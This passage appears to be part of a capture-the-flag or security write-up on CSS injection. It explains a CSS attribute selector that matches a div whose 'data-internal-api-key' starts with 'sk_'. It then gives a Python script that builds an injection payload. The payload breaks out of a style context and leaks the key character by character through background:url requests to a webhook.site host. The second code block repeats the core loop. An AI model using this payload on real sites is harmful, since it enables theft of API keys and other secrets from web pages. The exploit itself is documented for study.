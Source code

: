 **Payload breakdown:**

1. `div` → I want to target `<div>` elements.
2. `data-internal-api-key` → that's the attribute inside the div.
3. `^="sk_"` → the `^=` operator means "value starts with".
4. So the condition = "grab any `<div>` that has `data-internal-api-key` starting with `sk_`".

## Python Script for Exfiltration
I asked a friend his handler "macabely" to help and he wrote a script to extract the API key character by character.

```python
import sys

WEBHOOK_URL = "https://webhook.site/d8a7c3ad-53b2-4cff-b0c"

ID_SELECTOR = "#api-key-container"

ATTRIBUTE_NAME = "data-internal-api-key"

# brute force the keys
CHARS = "abcdefghijklmnopqrstuvwxyz0123456789"

# Start with "sk_"
known_prefix = sys.argv[1] if len(sys.argv) > 1 else "sk_7"

print(f"[*] Generating payload for prefix: '{known_prefix}'")

payload_parts = []

for char in CHARS:
    leaked_part = known_prefix + char
    # The URL path will show us the full leaked string
    url = f"//{WEBHOOK_URL.split('//')[1]}/{leaked_part}"
    selector = f'{ID_SELECTOR}[{ATTRIBUTE_NAME}^="{leaked_part}"]'
    rule = f'{selector}{{background:url({url});}}'
    payload_parts.append(rule)

# Final payload starts with '} to escape, and ends with /* to comment out junk
final_payload = "'}" + "".join(payload_parts) + "/*"

print(final_payload)
```

Brute-forcing API key char by char: 
```python
payload_parts = []
for char in CHARS:
    leaked_part = known_prefix + char
    url = f"//{WEBHOOK_URL.split('//')[1]}/{leaked_part}"
    selector = f'{ID_SELECTOR}[{ATTRIBUTE_NAME}^="{leaked_part}"]'
    rule = f'{selector}{{background:url({url});}}'
    payload_parts.append(rule)
final_payload = "'}" + "".join(payload_parts) + "/*"
```
